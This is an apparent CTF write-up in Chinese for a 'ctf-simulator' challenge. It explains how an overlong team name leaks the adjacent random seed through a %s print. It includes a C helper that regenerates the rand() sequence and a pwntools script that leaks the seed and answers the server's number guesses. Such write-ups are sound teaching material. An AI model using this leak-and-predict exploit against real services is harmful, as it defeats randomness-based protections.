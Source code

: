 而 srand 之類的有設定且是由 `/dev/urandom` 來讀取，所以基本上沒有其他漏洞的話是猜不到 seed 的

不過在輸入 teamname 的地方有漏洞，輸入之後會複製內容到 0x104430 的位置並複製 14 個字元，而 random seed 存的地方剛好是 0x104444 的位置，而輸出的格式是 `%s`，因此當輸入 teamname 長度 14 字元以上時輸出部分會將 teamname 和 random seed 一起印出來，可以洩漏 random seed，而洩漏出來後，random 的數字即可得知

由於 c 的 random 和 python 的 random 產生的方式不同，因此有額外寫了一個 c 的程式來獲得 random number

```c=
// getnumber.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    if(argc != 2)
    {
        exit(1);
    }
    srand(atoi(argv[1]));
    for(int i=10; i<1000000000; i*=10)
    {
        int num = rand() % i + 1;
        printf("%d\n", num);
    }
    return 0;
}
```

以下為主要的 python 程式

```python=
from pwn import *
from Crypto.Util.number import bytes_to_long
import subprocess
binary = "./ctf-simulator"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("sunshinectf.games", 22000)
#conn = process(binary)
#conn = gdb.debug(binary, "break *0x804809c\\nbreak main")

conn.sendlineafter(b"CTF team?\n", b"A" * 0x14)
data = conn.recvuntil(b"I'm").strip()[:-5]
seed = data[-4:]
seed = bytes_to_long(seed[::-1])

numbers = subprocess.run(["./getnumber", str(seed)], capture_output=True).stdout.split(b'\n')

for i in range(8):
    conn.sendlineafter(b"What is it?\n", numbers[i])

conn.interactive()
```
